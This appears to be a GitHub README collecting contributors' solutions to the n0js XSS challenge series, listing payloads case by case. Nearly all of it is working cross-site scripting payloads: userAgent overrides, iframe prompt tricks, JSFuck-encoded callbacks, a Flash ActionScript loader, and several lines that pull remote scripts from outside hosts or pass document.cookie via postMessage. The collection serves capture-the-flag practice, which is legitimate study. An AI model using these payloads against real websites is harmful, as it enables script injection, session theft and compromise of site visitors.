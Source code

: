 # n0js Challenges

[http://server.n0tr00t.com/n0js/case1.html](http://server.n0tr00t.com/n0js/case1.html)

	#### @Nearg1e [yourneargo@gmail.com]
	- http://server.n0tr00t.com/n0js/case1_writeup.txt

[http://server.n0tr00t.com/n0js/case2.html](http://server.n0tr00t.com/n0js/case2.html)

	#### @fyth
    - case2.html?a=location.hash.substr(1)#setTimeout("hi.eval('prompt(location.href)')",500)
    - case2.html?a=location.hash.substr(1)#navigator.__defineGetter__('userAgent', function(){ return '<svg/onload=prompt(location.href)>'})

	#### @evi1m0

    - case2.html?a=location.hash.substr(1)#var frame = document.createElement('iframe');
      frame.style.display = 'none'; document.body.appendChild(frame);
      function navigator(){} window.navigator = new Proxy(window.frames[0].window.navigator,
      { get: function(n0t){return "<img src=@ onerror=alert(location.href)>";} })
      
	#### 1124696276

    - case2.html?a=location.hash.substr(1)#function createProperty(value){var _value=value;function _get(){return _value}function _set(v){_value=v}return{"get":_get,"set":_set}};
      function makePropertyWritable(objBase,objScopeName,propName,initValue){var newProp,initObj;if(objBase&&objScopeName in objBase&&propName in objBase[objScopeName])
      {if(typeof initValue==="undefined"){initValue=objBase[objScopeName][propName]}
	  newProp=createProperty(initValue);try{Object.defineProperty(objBase[objScopeName],propName,newProp)}
      catch(e){initObj={};initObj[propName]=newProp;
      try{objBase[objScopeName]=Object.create(objBase[objScopeName],initObj)}catch(e){}}}};
      makePropertyWritable(window,"navigator","userAgent");
      window.navigator.userAgent="<script>prompt(location.href)</script>";
    
	#### @gaoheby
	- case2.html?a=window.location.hash.substring(1)#Object.defineProperty(navigator,'userAgent',
	  {get:function(){return '<script>prompt(location.href)</script>';}})
    
	#### Cnlouds
	- case2.html?test=location.hash.substr(1)#window.addEventListener('load', function(){window.hi.prompt(hi.location.href)});

	#### kaotudou [jianshu.com/p/eb22e86635e0]
	- case2.html?1=eval((window.location.search.substring(49)));
      =var/**/script=document.createElement`script`;script.src=`https://
      ctf.f4ck0.com/1.js`;document.body.appendChild(script);

[http://server.n0tr00t.com/n0js/case3.php](http://server.n0tr00t.com/n0js/case3.php)

	#### @Nearg1e [yourneargo@gmail.com]
	- case3.php?2017=%3Cobject%20allowscriptaccess=always%3E%20%3Cparam%20name=url%20value=http://tangzi.info:43992/payload/n0js_case3.swf%3E
	- AS3 Script:
	    package {
	        import flash.*;
	        import flash.net.*;
	
	        public class XSS {
	
	            public function XSS():void{
	            }
	            public static function main():void{
	                Lib.getURL(new URLRequest("javascript:a=document.createElement('iframe');a.src='https://www.n0tr00t.com/static/test/helloevent.html';document.body.appendChild(a);setTimeout(function(){window.frames[0].postMessage('<img src=1 onerror=prompt(document.cookie)>','*')},3000);"), "_top");
	            }
	
	        }
	    }
	    
	#### daocaoren [jkme.github.io/n0js-case3.html]
	- case3.php?2017=%3Csvg%3E%3Cset+href%3d%23script+attributeName%3dhref+to%3ddata%3a%2cs%3ddocument.createElement(%22script%22)
	  %3bs.src%3d%22http%3a%2f%2f45.32.138.203%2f2.js%22%3bdocument.body.appendChild(s)%3b+%2f%3E%3Cscript+id%3dscript+src%3dfoo%3E%3C%2fscript%3E+
	- jssource:
	    var t = document.createElement("iframe");
	    t.setAttribute("src","https://www.n0tr00t.com/static/test/helloevent.html");
	    document.body.appendChild(t);
	
	    function a(){
	        var b = document.createElement("button");
	        b.setAttribute("onclick","frames[0].postMessage('<img src=x onerror=alert(document.cookie)>','*')");
	        b.click();
	    }
	    //setTimeout("a()",3000);
	    window.onload = a();
	    
[http://server.n0tr00t.com/n0js/case4.php](http://server.n0tr00t.com/n0js/case4.php)
	
	#### @woto [woto3679@gmail.com]
	- case4.php?x=d=document;D=Document.prototype;D.appendChild.call(d.body,(D.createElement.call(d,%22iframe%22))).contentWindow.prompt.call(window,location);
	
	#### @evi1m0 [evi1m0.bat@gmail.com]
	- case4.php?x=document.writeln(%27%3Ciframe%3E%27);frames[0].prompt(location)

	#### @Nearg1e [yourneargo@gmail.com]
	- case4.php?x=document.writeln(%22%3Ciframe%3E%3C/iframe%3E%22);let%20f=document.querySelector(%27iframe%27);f.contentWindow.prompt(location);
	
	#### @math1as [ma7h1as.l@gmail.com]
	- case4.php?x=document.body.innerHTML=%27%3Ciframe%20id=%22a%22%20/%3E%27;a.contentWindow.prompt(location)

[http://server.n0tr00t.com/n0js/case5.php](http://server.n0tr00t.com/n0js/case5.php)

	#### @Nearg1e [yourneargo@gmail.com]
	- case5.php?x=<script type="text/javascript" src=case5-time.php?callback=[][(![]%252B[])[%252B[]]%252B([![]]%252B[][[]])[%252B!%252B[]%252B[%252B[]]]%252B(![]%252B[])[!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B(!![]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B!%252B[]]][([][(![]%252B[])[%252B[]]%252B([![]]%252B[][[]])[%252B!%252B[]%252B[%252B[]]]%252B(![]%252B[])[!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B(!![]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B!%252B[]]]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[][(![]%252B[])[%252B[]]%252B([![]]%252B[][[]])[%252B!%252B[]%252B[%252B[]]]%252B(![]%252B[])[!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B(!![]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B!%252B[]]])[%252B!%252B[]%252B[%252B[]]]%252B([][[]]%252B[])[%252B!%252B[]]%252B(![]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B(!![]%252B[])[%252B!%252B[]]%252B([][[]]%252B[])[%252B[]]%252B([][(![]%252B[])[%252B[]]%252B([![]]%252B[][[]])[%252B!%252B[]%252B[%252B[]]]%252B(![]%252B[])[!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B(!![]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B!%252B[]]]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B(!![]%252B[][(![]%252B[])[%252B[]]%252B([![]]%252B[][[]])[%252B!%252B[]%252B[%252B[]]]%252B(![]%252B[])[!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B(!![]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B!%252B[]]])[%252B!%252B[]%252B[%252B[]]]%252B(!![]%252B[])[%252B!%252B[]]]((![]%252B[])[%252B!%252B[]]%252B(![]%252B[])[!%252B[]%252B!%252B[]]%252B(!![]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B'(1)')()>

	#### fubb[at]unseen.is
	- case5.php?x=%3Cscript%20src=%27case5-time.php?callback=[][%22%5C155%5C141%5C160%22][%22%5C143%5C157%5C156%5C163%5C164%5C162%5C165%5C143%5C164%5C157%5C162%22](%22%5C141%5C154%5C145%5C162%5C164%5C50%5C61%5C51%22)%27%3E

[http://server.n0tr00t.com/n0js/case6.php](http://server.n0tr00t.com/n0js/case6.php)

	#### @Nearg1e [yourneargo@gmail.com]
	- case6.php?x=*/1%3C/script%3E%3Cscript%3E/*prompt(1);function%20lt(){};//

[http://server.n0tr00t.com/n0js/case7.html](http://server.n0tr00t.com/n0js/case7.html)
